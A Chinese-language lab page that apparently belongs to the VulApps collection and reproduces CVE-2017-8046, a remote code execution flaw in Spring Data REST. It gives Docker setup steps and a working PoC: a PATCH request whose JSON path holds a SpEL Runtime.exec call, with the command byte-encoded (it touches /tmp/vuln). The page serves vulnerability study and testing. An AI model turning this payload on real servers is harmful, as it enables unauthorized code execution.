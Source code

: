 ```yaml
---
layout: post
title: "Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)"
date: 2017-09-29 13:12:41 +0800
image: '/assets/img/'
description: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)'
main-class: 'hole'
color: '#B31917'
tags:
- Spring
- RCE
categories:
- Spring
twitter_text: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)环境'
introduction: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)环境'
---
```


### 漏洞信息

 * [CVE-2017-8046: RCE in PATCH requests in Spring Data REST](https://pivotal.io/security/cve-2017-8046)
 * [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_spring_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

1. 访问 `http://127.0.0.1:8080/`，测试服务是否启动成功
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-1.png)

2. 利用 POST 请求添加一个数据
    ```http
    POST /persons HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Type: application/json
    Cache-Control: no-cache
    
    {"firstName": "VulApps", "lastName": "VulApps"}
    ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-2.png)

3. 执行 PoC
    ```http
    PATCH /persons/1 HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Type: application/json-patch+json
    Cache-Control: no-cache
    Content-Length: 228
    
    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,118,117,108,110}))/lastName", "value": "vulapps-demo" }]
    ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-3.png)

4. 进入容器，发现成功创建文件
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-4.png)

### 参考链接

* [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 改动日志

* 2017/09/29 删除原 jar 包中 mongodb 依赖

